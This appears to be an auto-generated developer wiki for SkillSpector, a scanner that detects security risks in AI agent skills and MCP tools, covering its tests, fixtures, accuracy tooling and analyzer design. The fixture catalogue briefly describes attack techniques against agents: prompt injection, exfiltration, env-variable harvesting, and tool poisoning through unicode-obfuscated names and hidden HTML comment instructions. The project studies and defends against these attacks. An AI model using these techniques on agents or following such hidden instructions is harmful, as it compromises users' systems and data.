*   **Dangerous Execution Chains**: Behavioral AST tests confirm that patterns like `AST8` (wrapping a dynamic source inside a dangerous sink such as `exec()`) are correctly identified across varied control flows [tests/nodes/test_shared_python_ast.py:55-64]().

Sources: [src/skillspector/python_ast.py](), [tests/nodes/test_shared_python_ast.py]()

---

## Testing Architecture & Code Entity Mapping

The following diagrams bridge natural language concepts to specific code entities within the test suite.

### Diagram 1: Node Testing Data Flow
```mermaid
graph TD
    subgraph "TestExecution"
        T["pytest Node Test"] -->|Provides| S["SkillspectorState TypedDict"]
    end

    subgraph "NodeUnderTest"
        S --> N["Node Function (e.g. behavioral_ast.node)"]
        N -->|Calls| L["Analysis Logic (e.g. _analyze_python)"]
        L -->|Returns| AF["List[AnalyzerFinding]"]
        N -->|Converts| R["AnalyzerNodeResponse"]
    end

    subgraph "Verification"
        R -->|Assert| V["Expected Findings / State Updates"]
    end

    style S fill:none
    style R fill:none
```
Sources: [src/skillspector/state.py](), [tests/nodes/test_build_context.py](), [tests/nodes/analyzers/test_static_patterns.py]()

### Diagram 2: Test Suite Structure and Entity Mapping
```mermaid
graph TB
    subgraph "UnitTestSuite"
        CLI["test_cli.py"] -->|Tests| CLICmd["skillspector.cli.scan"]
        IH["test_input_handler.py"] -->|Tests| IHCls["skillspector.input_handler.InputHandler"]
        LLM["test_llm_utils.py"] -->|Tests| LLMUtils["skillspector.llm_utils"]
        OSV["test_osv_client.py"] -->|Tests| OSVClt["skillspector.osv_client.OSVClient"]
        WHEEL["test_wheel_contents.py"] -->|Tests| WhlBuild["hatchling.build.build_wheel"]
    end

    subgraph "NodeTestSuite"
        BA["test_shared_python_ast.py"] -->|Tests| BANode["skillspector.nodes.analyzers.behavioral_ast.node"]
        BC["test_build_context.py"] -->|Tests| BCNode["skillspector.nodes.build_context.build_context"]
        SR["test_static_patterns.py"] -->|Tests| SRRunner["skillspector.nodes.analyzers.static_runner.run_static_patterns"]
        REP["test_report.py"] -->|Tests| REPNode["skillspector.nodes.report.report"]
        DEDUP["test_deduplicate.py"] -->|Tests| DEDUPFn["skillspector.nodes.deduplicate.deduplicate"]
    end

    subgraph "SharedFixtures"
        F1["safe_skill_dir"]
        F2["malicious_skill_dir"]
    end

    F1 -.-> BC
    F2 -.-> BA
```
Sources: [tests/unit/test_cli.py](), [tests/unit/test_wheel_contents.py](), [tests/nodes/test_build_context.py](), [tests/nodes/test_shared_python_ast.py](), [tests/nodes/analyzers/test_static_patterns.py]()

---

# Page: Integration Tests and Test Fixtures

# Integration Tests and Test Fixtures

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/EVAL_DATASETS.md](docs/EVAL_DATASETS.md)
- [src/skillspector/nodes/analyzers/common.py](src/skillspector/nodes/analyzers/common.py)
- [src/skillspector/nodes/resolve_input.py](src/skillspector/nodes/resolve_input.py)
- [tests/fixtures/oms/mcore-split-pr.skill.oms.sig](tests/fixtures/oms/mcore-split-pr.skill.oms.sig)
- [tests/fixtures/pe3_bare_keyring/SKILL.md](tests/fixtures/pe3_bare_keyring/SKILL.md)
- [tests/fixtures/pe3_bare_keyring/issue-396-keyring.md](tests/fixtures/pe3_bare_keyring/issue-396-keyring.md)
- [tests/integration/test_graph.py](tests/integration/test_graph.py)
- [tests/nodes/test_resolve_input.py](tests/nodes/test_resolve_input.py)

</details>


## Purpose and Scope
This page documents the integration testing framework and the test fixture catalogue used in SkillSpector. Integration tests exercise the full LangGraph pipeline [src/skillspector/graph.py]() from input resolution to report generation. The test fixtures provide a curated suite of skill directories simulating both benign and malicious code patterns, supply chain vectors, MCP configurations, and semantic intents.

Sources: [tests/integration/test_graph.py:16-24]()

---

## Integration Test Suite

Integration tests reside in `tests/integration/` and evaluate end-to-end execution by invoking the compiled `graph` object (`StateGraph`) directly or through the CLI framework.

### Key Test Files and Invocation Patterns

*   **`test_graph.py`**: Exercises the complete graph execution path. It validates that invoking the graph with `output_format="json"` returns a valid JSON report containing `skill`, `risk_assessment`, and `components` keys [tests/integration/test_graph.py:26-43](). It also contains integration tests for recognizing signed skills via `skill.oms.sig` and verifying scope exclusions across formats [tests/integration/test_graph.py:45-127](), as well as degraded LLM stage recovery [tests/integration/test_graph.py:153-165]().
*   **`test_graph_scanner.py`**: Validates high-level scanning wrappers, initialization mechanics, and multi-skill recursive handling.
*   **`test_meta_analyzer_use_llm.py`**: Tests the `LLMMetaAnalyzer` node integration, verifying filtering and enrichment when LLM backends are active.
*   **`test_agent_cli_live.py`**: Provides optional live integration tests driving external agent CLI binaries through `run_agent_cli`.

### Data Flow in Integration Tests

The following diagram bridges the natural language test space to the concrete code entities within the pipeline:

**Integration Test Execution Flow**
```mermaid
graph TD
    subgraph "Test Space"
        T["test_graph.py"]
        FIX["tests/fixtures/*"]
    end

    subgraph "Code Entity Space"
        G["graph (skillspector/graph.py)"]
        S["SkillspectorState (skillspector/state.py)"]
        RI["resolve_input (skillspector/nodes/resolve_input.py)"]
        BC["build_context (skillspector/nodes/build_context.py)"]
        AN["Analyzer Nodes (skillspector/nodes/analyzers/*)"]
        MA["meta_analyzer (skillspector/nodes/meta_analyzer.py)"]
        REP["report (skillspector/nodes/report.py)"]
    end

    T -- "graph.invoke()" --> G
    FIX -- "skill_path" --> RI
    RI -- "populates skill_path" --> S
    S -- "build_context" --> BC
    BC -- "populates file_cache/manifest" --> S
    S -- "fan-out" --> AN
    AN -- "add findings" --> S
    S -- "refine" --> MA
    MA -- "generate SARIF" --> REP
    REP -- "return result dict" --> T
```
Sources: [tests/integration/test_graph.py:26-56](), [src/skillspector/nodes/build_context.py:16-44](), [src/skillspector/nodes/build_context.py:83-94]()

Sources: [tests/integration/test_graph.py:1-217]()

---

## Catalogue of Fixture Skill Directories

SkillSpector maintains a comprehensive suite of fixture skill directories under `tests/fixtures/` to test specific analyzer capabilities and rule triggers.

### General Security Fixtures

| Fixture Path | Purpose | Key Vulnerability / Feature Tested |
|:---|:---|:---|
| `tests/fixtures/safe_skill` | Negative Control | Benign code and valid `SKILL.md` with zero findings. |
| `tests/fixtures/malicious_skill` | Multi-Vector Attack | Combines prompt injection and exfiltration patterns. |
| `tests/fixtures/pe3_bare_keyring` | False Positive Guard | Tests credential-store terminology references without code triggers [tests/fixtures/pe3_bare_keyring/SKILL.md:1-6](). |
| `tests/fixtures/oms/` | Cryptographic Signatures | Validates `oms_signature` handling and scope exclusions using `mcore-split-pr.skill.oms.sig` [tests/integration/test_graph.py:45-50](). |

### MCP (Model Context Protocol) Fixtures

*   **`mcp_clean_skill`**: Well-formed MCP server skill with consistent declarations.
*   **`mcp_mismatched_skill`**: Declares restricted permissions while containing code harvesting environment variables.
*   **`mcp_overprivileged_skill`**: Declares wildcard capabilities (e.g., `*`), triggering rule `LP2`.
*   **`mcp_poisoned_tool`**: Employs unicode obfuscation in tool names and hidden HTML comment instructions.
*   **`mcp_underdeclared_skill`**: Uses shell/network capabilities without manifest declarations, triggering rule `LP3`.
*   **`mcp_registry/`**: Tests registry posture scanning and metadata validation.

### Semantic and Quality Fixtures

Located across dedicated subdirectories, these fixtures validate LLM-powered and semantic analyzers:

*   **`sdi/` (Semantic Developer Intent)**: Tests `sdi1_mismatch`, `sdi2_inappropriate`, `sdi3_scope_creep`, and `sdi4_divergence`.
*   **`sqp/` (Semantic Quality Policy)**: Evaluates quality and policy adherence rules.
*   **`ssd/` (Semantic Security Discovery)**: Tests deep security discovery prompts and zero-day heuristic detection.

Sources: [tests/fixtures/pe3_bare_keyring/SKILL.md:1-6](), [tests/integration/test_graph.py:45-50]()

### Fixture to Analyzer Mapping

The following diagram maps specific test fixtures to their corresponding analyzer components in the codebase:

**Fixture to Analyzer Mapping**
Arguments and fixtures route directly into targeted analyzer modules:

```mermaid
graph LR
    subgraph "Test Fixtures (tests/fixtures)"
        MS["malicious_skill"]
        MP["mcp_poisoned_tool"]
        MM["mcp_mismatched_skill"]
        SDI["sdi/sdi1_mismatch"]
        OMS["oms/mcore-split-pr.skill.oms.sig"]
    end

    subgraph "Analyzer Nodes (src/skillspector/nodes/analyzers)"
        SP["static_patterns.py"]
        MLP["mcp_least_privilege.py"]
        MTP["mcp_tool_poisoning.py"]
        SEM["semantic_developer_intent.py"]
        BC["build_context.py"]
    end

    MS -- "triggers" --> SP
    MP -- "triggers" --> MTP
    MM -- "triggers" --> MLP
    SDI -- "triggers" --> SEM
    OMS -- "excludes" --> BC
```
Sources: [src/skillspector/nodes/build_context.py:76-80](), [tests/integration/test_graph.py:45-50]()

Sources: [tests/fixtures/pe3_bare_keyring/SKILL.md:1-6](), [tests/integration/test_graph.py:45-87]()

---

## Context Building and Evaluation Dataset Handling

Integration tests rely on the `build_context` node to ingest fixtures safely. The node handles file walking, manifest parsing, metadata generation, and signature handling [src/skillspector/nodes/build_context.py:49-94]().

Additionally, to prevent evaluation datasets from triggering false positives during accuracy testing, static pattern analyzers explicitly ignore designated evaluation files [docs/EVAL_DATASETS.md:1-21]().

Sources: [src/skillspector/nodes/build_context.py:49-94](), [docs/EVAL_DATASETS.md:1-21]()

---

# Page: Security Regression and Accuracy Suites

# Security Regression and Accuracy Suites

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/ANALYSIS_RESOURCE_BOUNDS.md](docs/ANALYSIS_RESOURCE_BOUNDS.md)
- [docs/EVAL_DATASETS.md](docs/EVAL_DATASETS.md)
- [scripts/compare_scan_accuracy.py](scripts/compare_scan_accuracy.py)
- [scripts/generate_unicode_confusables.py](scripts/generate_unicode_confusables.py)
- [src/skillspector/artifacts.py](src/skillspector/artifacts.py)
- [src/skillspector/nodes/analyzers/artifact_integrity.py](src/skillspector/nodes/analyzers/artifact_integrity.py)
- [tests/nodes/analyzers/test_artifact_integrity_bounds.py](tests/nodes/analyzers/test_artifact_integrity_bounds.py)
- [tests/nodes/test_security_end_to_end.py](tests/nodes/test_security_end_to_end.py)
- [tests/nodes/test_security_remediation.py](tests/nodes/test_security_remediation.py)
- [tests/unit/test_compare_scan_accuracy.py](tests/unit/test_compare_scan_accuracy.py)

</details>


## Purpose and Scope
This page details the implementation and operation of SkillSpector’s security regression test suites, deterministic resource-bound validation models, accuracy evaluation tooling in `scripts/`, and data isolation policies. These mechanisms ensure detection quality remains robust across version iterations, prevent evasions, enforce strict operational resource ceilings, and prevent evaluation dataset fixtures from being misclassified as live skill code.

Sources: `tests/nodes/test_security_remediation.py:1-47()`, `scripts/compare_scan_accuracy.py:1-45()`, `docs/ANALYSIS_RESOURCE_BOUNDS.md:1-15()`

---

## 1. Security Remediation and Regression Tests
SkillSpector maintains a specialized regression test suite in `tests/nodes/test_security_remediation.py` and `tests/nodes/test_security_end_to_end.py`. These tests validate structure-preserving security remediations, byte-accurate artifact classification, and robust unicode normalization against known adversarial bypass vectors.

### Byte Classification and Extension Consistency
The scanner prioritizes raw byte analysis over file extensions to mitigate extension spoofing (`AE2`). For instance, `test_content_classification_uses_bytes_not_extension` verifies that a PNG file bearing a `.md` extension or text data bearing a `.png` extension correctly resolves its `ContentKind` while flagging `misleading_extension` [tests/nodes/test_security_remediation.py:48-56()].

```mermaid
graph TD
    subcode ["Code Entity Space"]
        CA["classify_artifact(path, bytes)"] --> CK["ContentKind (TEXT | BINARY | OPAQUE)"]
        CK --> AI["artifact_integrity()"]
        AI --> AE2["Finding(rule_id='AE2')"]
    end
    subtext ["Natural Language Space"]
        RawBytes["Raw File Bytes"] --> ByteInspector["Byte Signature Evaluator"]
        ByteInspector --> ExtensionCheck["Misleading Extension Detector"]
        ExtensionCheck --> SecurityFinding["Artifact Integrity Finding"]
    end
    CA -.-> RawBytes
    AI -.-> SecurityFinding

    classDef default fill:none,stroke:#000,stroke-width:2px;
```
*Figure 1: Byte-level artifact classification bridging natural language file inspection to `classify_artifact` and `artifact_integrity`.*

Sources: `tests/nodes/test_security_remediation.py:48-73()`, `src/skillspector/artifacts.py:28-57()`

---

### End-to-End Public Surface Parity
End-to-end tests verify that findings discovered by Python graph executions (`graph.invoke`) map correctly to all public reporting formats (JSON, Markdown, SARIF, and terminal output) and CLI entrypoints (`app()`). As demonstrated in `_assert_rules_across_public_surfaces`, risk scores, recommendations, completeness projections, and file locations remain consistent across format renderers [tests/nodes/test_security_end_to_end.py:109-176()].

Sources: `tests/nodes/test_security_end_to_end.py:109-176()`

---

## 2. Resource Bounds Testing and Ceilings
SkillSpector enforces fail-closed resource constraints documented in `docs/ANALYSIS_RESOURCE_BOUNDS.md`. Resource boundaries govern discovery depth, materialized source bytes, archive expansion, memory caches, and workflow timeouts [docs/ANALYSIS_RESOURCE_BOUNDS.md:1-53()].

### Bounded Artifact Inspection and Budgets
Resource bounds regressions are tested via `tests/nodes/analyzers/test_artifact_integrity_bounds.py`. When analyzer resource budgets expire or finding caps are reached, the inspection ledger records partial outcomes (`LedgerOutcome.PARTIAL`) and degraded analyzer status events without crashing the workflow [tests/nodes/analyzers/test_artifact_integrity_bounds.py:21-94()].

```mermaid
graph TD
    subcode ["Code Entity Space"]
        AN["artifact_integrity.node()"] --> WB["_ExpiringWorkflowBudget.remaining_seconds()"]
        WB --> CHK{{"Time or Finding Cap Reached?"}}
        CHK -->|Yes| LED["InspectionLedgerEvent(outcome='partial', reason_code='runtime_limit')"]
        CHK -->|No| PROJ["normalized_security_view()"]
        LED --> DEG["AnalyzerStatusEvent(status='degraded')"]
    end
    subtext ["Natural Language Space"]
        WorkflowExecution["Workflow Execution"] --> BudgetCheck["Resource Budget Monitor"]
        BudgetCheck -->|Exceeded| PartialResult["Record Partial Coverage & Limit Reason"]
        BudgetCheck -->|Valid| ContinueScan["Continue Security Analysis"]
    end
    AN -.-> WorkflowExecution
    LED -.-> PartialResult

    classDef default fill:none,stroke:#000,stroke-width:2px;
```
*Figure 2: Resource bounds control flow illustrating deadline checking and ledger recording in `artifact_integrity.node`.*

Sources: `docs/ANALYSIS_RESOURCE_BOUNDS.md:1-53()`, `tests/nodes/analyzers/test_artifact_integrity_bounds.py:11-94()`

---

## 3. Accuracy Tooling (`compare_scan_accuracy.py`)
The accuracy harness located at `scripts/compare_scan_accuracy.py` compares two SkillSpector revisions (baseline vs. candidate) against a human-adjudicated local corpus to prevent accuracy regressions.

### Key Capabilities and Data Flow
- **Strict Identity Validation**: Resolves scanner execution identity, virtual environments, dependencies, and git state [scripts/compare_scan_accuracy.py:56-180()].
- **Corpus Segregation**: Enforces classification cohorts (`maintained_benign`, `approved_real_world`) [scripts/compare_scan_accuracy.py:34()].
- **Material Regression Policy**: Evaluates false-positive and false-negative deltas against strict thresholds (e.g., zero-tolerance policies).

Sources: `scripts/compare_scan_accuracy.py:1-45()`, `tests/unit/test_compare_scan_accuracy.py:20-55()`

---

## 4. Unicode Confusables Generation (`scripts/generate_unicode_confusables.py`)
To neutralize homoglyph and confusable obfuscation in instructions, SkillSpector compiles a bounded ASCII skeleton table via `scripts/generate_unicode_confusables.py`.

### Implementation Details
The script ingests the versioned `confusables.txt` published in Unicode UTS #39, filtering out multi-code-point mappings and non-ASCII targets. Only single-code-point sources mapping entirely to ASCII alphanumeric characters are preserved [scripts/generate_unicode_confusables.py:19-40()]:

```python
def _parse_line(line: str) -> tuple[int, str] | None:
    data = line.split("#", 1)[0].strip()
    if not data:
        return None
    fields = [field.strip() for field in data.split(";")]
    if len(fields) < 2:
        return None
    source_points = fields[0].split()
    if len(source_points) != 1:
        return None
    target = "".join(chr(int(point, 16)) for point in fields[1].split())
    if not target or not all(char.isascii() and char.isalnum() for char in target):
        return None
    source = int(source_points[0], 16)
    if source <= 0x7F:
        return None
    return source, target
```

Sources: `scripts/generate_unicode_confusables.py:19-40()`, `src/skillspector/artifacts.py:238-240()`

---

## 5. Evaluation Dataset Isolation (`docs/EVAL_DATASETS.md`)
SkillSpector treats authored evaluation datasets as test-case data rather than executable skill logic, preventing false positives caused by embedded evaluation prompts or ground-truth assertions [docs/EVAL_DATASETS.md:1-21()].

### Skipped Paths
Static pattern analyzers automatically skip dataset files matching paths such as:
- `evals/evals.json`, `evals/evals.jsonl`, `evals/evals.yaml`, `evals/evals.yml`
- `eval/dataset.json`, `eval/dataset.jsonl`, `eval/dataset.yaml`, `eval/dataset.yml`

This exclusion applies to both agentskills.io formats and legacy flat ACES formats while preserving security analysis over executable code, scripts, and dependencies [docs/EVAL_DATASETS.md:6-21()].

Sources: `docs/EVAL_DATASETS.md:1-21()`

---

# Page: Developer Guide

# Developer Guide

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [.gitignore](.gitignore)
- [Makefile](Makefile)
- [README.md](README.md)
- [SECURITY.md](SECURITY.md)
- [docs/B.3.2-mcp-tool-poisoning.md](docs/B.3.2-mcp-tool-poisoning.md)
- [docs/DEVELOPMENT.md](docs/DEVELOPMENT.md)
- [docs/SC4-osv-live-vulnerability-lookups.md](docs/SC4-osv-live-vulnerability-lookups.md)
- [tests/integration/__init__.py](tests/integration/__init__.py)
- [tests/unit/__init__.py](tests/unit/__init__.py)

</details>


This guide provides practical information for contributors looking to extend SkillSpector, maintain code quality, or understand the integration roadmap. SkillSpector is built on a **LangGraph** workflow [src/skillspector/graph.py:24-57](), and its modular nature allows for the easy addition of new analysis capabilities.

For a high-level understanding of the system architecture before diving into development, see [Core Architecture](#2).

## Adding Analyzer Nodes

SkillSpector's core strength lies in its parallel analyzer nodes. All analyzers are registered in a central registry and follow a specific protocol to ensure they can be executed within the LangGraph `StateGraph` [src/skillspector/graph.py:43-50]().

*   **Registration**: New nodes must be added to `ANALYZER_NODE_IDS` and mapped in the `ANALYZER_NODES` dictionary [src/skillspector/nodes/analyzers/__init__.py:12-42]().
*   **Protocols**: Analyzers should satisfy the `AnalyzerPlugin` protocol [src/skillspector/data_models.py:284-288]() and return an `AnalyzerNodeResponse` [src/skillspector/state.py:10-12]().
*   **Implementation**:
    *   **Static Analyzers**: Typically use the `run_static_patterns` helper to match regex-based rules [src/skillspector/nodes/analyzers/static_patterns.py:18-35]().
    *   **LLM Analyzers**: Should extend `LLMAnalyzerBase` to benefit from automatic batching, token budgeting, and line-numbered prompts [src/skillspector/llm_analyzer_base.py:46-78]().

For step-by-step instructions and code templates, see **[Adding Analyzer Nodes](#6.1)**.

### Analyzer Integration Map

The following diagram shows how a new analyzer class (e.g., `LLMAnalyzerBase`) relates to the graph state and the final report.

```mermaid
graph TD
    subgraph "Natural Language Space"
        "Security_Rule"["Security Rule"] --> "Prompt_Pattern"["Prompt/Pattern"]
    end

    subgraph "Code Entity Space"
        "Prompt_Pattern" --> "AnalyzerNode"["Analyzer Node (e.g., semantic_security_discovery)"]
        "AnalyzerNode" --> "LLMAnalyzerBase"["LLMAnalyzerBase.arun_batches()"]
        "LLMAnalyzerBase" --> "AnalyzerNodeResponse"["AnalyzerNodeResponse {findings: list[Finding]}"]
        "AnalyzerNodeResponse" --> "SkillspectorState"["SkillspectorState['findings']"]
        "SkillspectorState" --> "report_node"["report_node (SARIF generation)"]
    end
```

**Sources:** [src/skillspector/llm_analyzer_base.py:46-210](), [src/skillspector/state.py:14-55](), [src/skillspector/nodes/report.py:20-45]()

## Code Quality and CI

To maintain a robust and secure codebase, SkillSpector enforces strict linting, formatting, and testing standards.

*   **Linting & Formatting**: We use `ruff` for both linting and code formatting [Makefile:108-128](). Configuration is maintained in `pyproject.toml`.
*   **Automation**: The `Makefile` provides convenient targets for development:
    *   `make lint`: Runs `ruff check` [Makefile:109-111]().
    *   `make format`: Runs `ruff format` and `ruff check --fix` [Makefile:119-122]().
    *   `make test`: Runs unit and integration tests [Makefile:59-60]().
    *   `make test-ci`: Runs tests with Cobertura XML coverage for CI pipelines [Makefile:105-106]().

For details on CI configuration and coverage reporting, see **[Code Quality and CI](#6.2)**.

## MCP Server and Agent Integration

SkillSpector can be deployed as a Model Context Protocol (MCP) server, allowing AI agents (like Pi) to perform security scans dynamically.

*   **MCP Server**: The `mcp_server.py` implementation exposes a `scan_skill` tool [src/skillspector/mcp_server.py:12-45]().
*   **Pi Extension**: A TypeScript extension is provided to integrate SkillSpector directly into agentic workflows [extensions/skillspector.ts:1-20](). The extension registers the `skillspector_scan` tool [extensions/skillspector.ts:84-85]().

For details on the MCP architecture and extension configuration, see **[MCP Server and Pi Extension](#6.3)**.

### Pi Extension Execution Flow

This diagram associates the TypeScript extension logic with the underlying SkillSpector CLI execution.

```mermaid
graph TD
    subgraph "Natural Language Space"
        "User_Prompt"["'Use skillspector_scan on ./my-skill'"]
    end

    subgraph "Code Entity Space"
        "User_Prompt" --> "pi_registerTool"["pi.registerTool(name: 'skillspector_scan')"]
        "pi_registerTool" --> "execute_fn"["execute() in extensions/skillspector.ts"]
        "execute_fn" --> "buildScanArgs"["buildScanArgs() returns ['scan', target, '--format', ...]"]
        "buildScanArgs" --> "pi_exec"["pi.exec(bin, args)"]
        "pi_exec" --> "SkillSpector_CLI"["skillspector scan (CLI entry point)"]
        "SkillSpector_CLI" --> "redactSecrets"["redactSecrets(stdout)"]
    end
```

**Sources:** [extensions/skillspector.ts:66-81](), [extensions/skillspector.ts:84-142](), [docs/PI_EXTENSION.md:1-67]()

## Batch Scan Contrib Module

For large-scale analysis, the `contrib/batch_scan` module provides a high-concurrency runner capable of scanning entire directories of skills in parallel [README.md:170-185](). It features a multi-layer concurrency model and an `ApiKeyPool` to handle LLM rate limits.

For details on the batch scanning architecture, see **[Batch Scan Contrib Module](#6.4)**.

## Contribution Requirements

All contributors must adhere to the following legal and technical requirements:

1.  **DCO Sign-off**: Every commit must be signed off using `git commit -s`. The GitHub Actions CI verifies this via the `dco` job [.github/workflows/ci.yml:112-143]().
2.  **SPDX Headers**: Every new source file must include the standard SPDX license header [src/skillspector/graph.py:1-2]().
3.  **Tests**: New features or analyzers must include unit tests in `tests/unit/` or node-level tests in `tests/nodes/` [Makefile:63-64]().

## SkillTrap Integration Roadmap

The project is moving toward a hybrid analysis model. While SkillSpector handles static and semantic analysis, **SkillTrap** is a proposed dynamic analysis engine that runs skills in instrumented Docker containers.

### Static to Dynamic Flow

This diagram illustrates the planned integration where SkillSpector orchestrates SkillTrap as a subprocess to confirm ambiguous static findings.

```mermaid
graph LR
    subgraph "SkillSpector (Python)"
        "static_nodes"["Static Analyzers"] --> "meta_analyzer"["meta_analyzer (LLM)"]
        "meta_analyzer" --> "dynamic_runner"["dynamic_runner.py"]
    end

    subgraph "SkillTrap (Go)"
        "dynamic_runner" -- "subprocess call" --> "skilltrap_cli"["skilltrap analyze --json"]
        "skilltrap_cli" --> "docker_sandbox"["Docker Sandbox (Falco/strace)"]
        "docker_sandbox" --> "json_report"["JSON Report"]
    end

    "json_report" -- "parse" --> "report_node"["Final Merged Report"]
```

**Sources:** [docs/DEVELOPMENT.md:106-120](), [src/skillspector/graph.py:34-53](), [Makefile:153-154]()

---
**Sources:** [Makefile:1-154](), [docs/DEVELOPMENT.md:1-130](), [src/skillspector/graph.py:1-57](), [src/skillspector/nodes/analyzers/__init__.py:1-42](), [extensions/skillspector.ts:1-142](), [.github/workflows/ci.yml:112-143]()

---

# Page: Adding Analyzer Nodes

# Adding Analyzer Nodes

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/LLM_ANALYZER_BASE_GUIDE.md](docs/LLM_ANALYZER_BASE_GUIDE.md)
- [src/skillspector/nodes/analyzers/__init__.py](src/skillspector/nodes/analyzers/__init__.py)
- [src/skillspector/nodes/analyzers/pattern_defaults.py](src/skillspector/nodes/analyzers/pattern_defaults.py)
- [src/skillspector/nodes/analyzers/static_runner.py](src/skillspector/nodes/analyzers/static_runner.py)
- [tests/nodes/analyzers/test_registry.py](tests/nodes/analyzers/test_registry.py)
- [tests/nodes/analyzers/test_static_runner_filtering.py](tests/nodes/analyzers/test_static_runner_filtering.py)
- [tests/unit/test_reviewer_nits.py](tests/unit/test_reviewer_nits.py)

</details>


This page provides a technical guide for implementing and registering new analyzer nodes within the SkillSpector LangGraph workflow. SkillSpector uses a fan-out architecture where multiple independent analyzers process a skill's context in parallel to identify security risks, behavioral anomalies, and policy violations.

## Analyzer Implementation Overview

Every analyzer in SkillSpector is a LangGraph node that consumes the `SkillspectorState` and returns an `AnalyzerNodeResponse` containing a list of `Finding` objects. Analyzers can be built either as static pattern processors using `run_static_patterns` [src/skillspector/nodes/analyzers/static_runner.py:28-58](), behavioral AST/taint analyzers, or semantic analyzers extending `LLMAnalyzerBase`.

### Core Interfaces and Data Models

The system relies on the `AnalyzerPlugin` protocol and standardized finding models to ensure consistency across static, behavioral, and semantic analyzers.

| Entity | Role | Source |
| :--- | :--- | :--- |
| `AnalyzerPlugin` | A `Protocol` defining the interface for analyzer modules: `analyze()` and `is_available()`. | [src/skillspector/models.py:121-133]() |
| `AnalyzerFinding` | Common internal finding type produced by analyzers (static, behavioral, MCP, semantic). | [src/skillspector/models.py:48-62]() |
| `Finding` | The primary model for the graph state and report output. Includes fields for SARIF reporting. | [src/skillspector/models.py:71-91]() |
| `AnalyzerNodeResponse` | A `TypedDict` return type for nodes: `{"findings": list[Finding]}`. | [src/skillspector/state.py:38-42]() |

### Data Flow: From Node to State
The following diagram illustrates how an analyzer node interacts with the global state and the standardized finding models.

**Analyzer Node Data Flow**
```mermaid
graph TD
    subgraph "SkillspectorState"
        SC["components(list[str])"]
        FC["file_cache(dict[str,str])"]
        UL["use_llm(bool)"]
        MF["manifest(dict)"]
    end

    Node["AnalyzerNode(e.g.,static_patterns_tool_misuse)"]
    Base["LLMAnalyzerBase_or_run_static_patterns"]
    F["Finding(Standardized)"]
    Red["StateReducer(operator.add)"]

    SC --> Node
    FC --> Node
    UL --> Node
    MF --> Node
    Node --> Base
    Base --> F
    F -->|Return| Red
    Red -->|"state['findings']"| GlobalState["FinalState"]
```
Sources: [src/skillspector/state.py:72-114](), [src/skillspector/models.py:71-91](), [src/skillspector/nodes/analyzers/static_runner.py:28-58]()

---

## 1. Implementing Static Pattern Analyzers

Static analyzers use regular expressions or lexical scanning over text views. SkillSpector provides `run_static_patterns` and `run_static_patterns_with_ledger` in `static_runner.py` to handle boilerplate like file-type inference, security text views, windowing, and ledger event emission [src/skillspector/nodes/analyzers/static_runner.py:28-58]().

### The `analyze()` Function and Pattern Modules
A static pattern module must implement an `analyze` function with the following signature:
`def analyze(*, content: str, file_path: str, file_type: str) -> list[AnalyzerFinding]` [tests/nodes/analyzers/test_static_runner_filtering.py:37-43]()

### Default Explanations and Categories
When implementing new static rules, use the `PatternCategory` enum and `DEFAULT_EXPLANATIONS` mapping in `pattern_defaults.py` to provide consistent metadata for findings [src/skillspector/nodes/analyzers/pattern_defaults.py:24-85]().

| Category | Description |
| :--- | :--- |
| `PROMPT_INJECTION` | Attempts to override system instructions. |
| `DATA_EXFILTRATION` | Transmission of sensitive data to external services. |
| `PRIVILEGE_ESCALATION` | Unauthorized access to elevated capabilities (e.g., PE3 for `.env` access). |
| `TOOL_MISUSE` | Dangerous tool parameters or chaining. |

### Natural Language Space to Code Entity Space: Static Analyzer Architecture
The following diagram maps natural-language rule definitions and categories to the concrete code entities used in static pattern detection.

**Static Pattern Code-Entity Mapping**
```mermaid
graph LR
    subgraph "NaturalLanguageSpace"
        Cat["PatternCategory(StrEnum)"]
        Expl["DEFAULT_EXPLANATIONS(dict)"]
    end

    subgraph "CodeEntitySpace"
        Mod["PatternModule(e.g.,static_patterns_prompt_injection)"]
        Fn["analyze(content,file_path,file_type)"]
        Runner["run_static_patterns_with_ledger()"]
        Ledger["InspectionLedgerEvent"]
    end

    Cat -->|Tags| Mod
    Expl -->|Provides_Reason| Mod
    Mod -->|Implements| Fn
    Fn -->|Invoked_by| Runner
    Runner -->|Emits| Ledger
```
Sources: [src/skillspector/nodes/analyzers/pattern_defaults.py:24-85](), [src/skillspector/nodes/analyzers/static_runner.py:28-58]()

---

## 2. Building LLM Analyzers on LLMAnalyzerBase

Semantic and discovery-mode analyzers leverage `LLMAnalyzerBase` to perform deep reasoning over skill content [docs/LLM_ANALYZER_BASE_GUIDE.md:1-29]().

### LLMAnalyzerBase Capabilities
`LLMAnalyzerBase` manages the complexity of LLM interactions [docs/LLM_ANALYZER_BASE_GUIDE.md:7-25]():
*   **Token Budgeting**: Automatically chunks large files using line-overlap logic.
*   **Line-Numbered Prompts**: Prefixes code with line numbers (`L01:`, `L02:`) so the LLM reports precise `start_line` values.
*   **Parallelism**: Uses `asyncio.gather` to run cross-file and cross-chunk batches concurrently.
*   **Structured Output**: Uses LangChain's `with_structured_output` to parse LLM responses into Pydantic models.

### Implementation Steps
1.  **Define a Prompt**: Create a detailed security analysis prompt specifying rule ID prefixes (e.g., `SSD-001`) [docs/LLM_ANALYZER_BASE_GUIDE.md:48-58]().
2.  **Initialize Base & Run Batches**: Call `LLMAnalyzerBase`, retrieve batches via `get_batches()`, and execute asynchronously via `arun_batches()` [docs/LLM_ANALYZER_BASE_GUIDE.md:80-84]().

### Natural Language Space to Code Entity Space: LLM Analyzer Architecture
The following diagram illustrates how natural-language prompt instructions map to the underlying LLM classes and execution pipelines.

**Semantic Analyzer Code-Entity Mapping**
```mermaid
graph LR
    subgraph "NaturalLanguageSpace"
        Prompt["ANALYZER_PROMPT(Instructions)"]
    end

    subgraph "CodeEntitySpace"
        Node["node(state: SkillspectorState)"]
        Base["LLMAnalyzerBase"]
        Batch["Batch(dataclass)"]
        Schema["LLMAnalysisResult(Pydantic)"]
        LLMF["LLMFinding"]
    end

    Prompt -->|Injected_into| Base
    Node -->|Initializes| Base
    Base --> Batch
    Batch -->|Processed_by| Schema
    Schema -->|Contains| LLMF
    LLMF -->|to_finding()| Findings["Finding"]
```
Sources: [docs/LLM_ANALYZER_BASE_GUIDE.md:35-207]()

---

## 3. Emitting Ledger Events

